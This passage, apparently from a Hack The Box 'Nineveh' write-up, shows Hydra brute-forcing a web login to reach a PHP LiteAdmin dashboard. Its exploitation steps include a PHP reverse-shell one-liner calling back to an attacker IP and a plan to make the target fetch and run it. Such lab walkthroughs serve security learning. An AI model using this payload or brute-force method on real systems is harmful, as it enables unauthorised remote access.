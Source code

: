 ```console
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "princess" - 6 of 14344399 [child 5] (0/0)
... [Many attempts later] ...
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "esteban" - 1399 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "mookie" - 1400 of 14344399 [child 13] (0/0)
[443][http-post-form] host: 10.10.10.43   login: whatever   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-12-16 07:46:08
```

<div class="notice--info">
  <h4>Note:</h4>
  <p>Login name (-l) doesn't matter as we do not need it in our http request. Hydra just requires it in it's syntax and therefore now it's irrelevant! </p>
</div>

Use **password123** and we are inside the `PHP LiteAdmin` dashboard: 

<img src="/assets/img/blog/htb-nineveh/htb-nineveh-08.png">

Time to do some damage!

***

# Exploitation

There are many methods one can choose in order to compromise the application, but I went with the following:

* Make our own **.txt** backdoor file inside */var/www/html* with `<?php $sock=fsockopen("YOUR IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>` as the content 
* Start apache2 - `/etc/init.d/apache2 start`
* Make the target download (wget) our **.txt** file, save it as **.php** and run it

<div class="notice--info">
  <h4>Note:</h4>
  <p>If you save the file as <b>.php</b> it would get activated on your own server when you wget it later on - <em>be careful about it</em>. That's why we save it as <b>.txt</b> and output it to <b>.php</b></p>
</div>
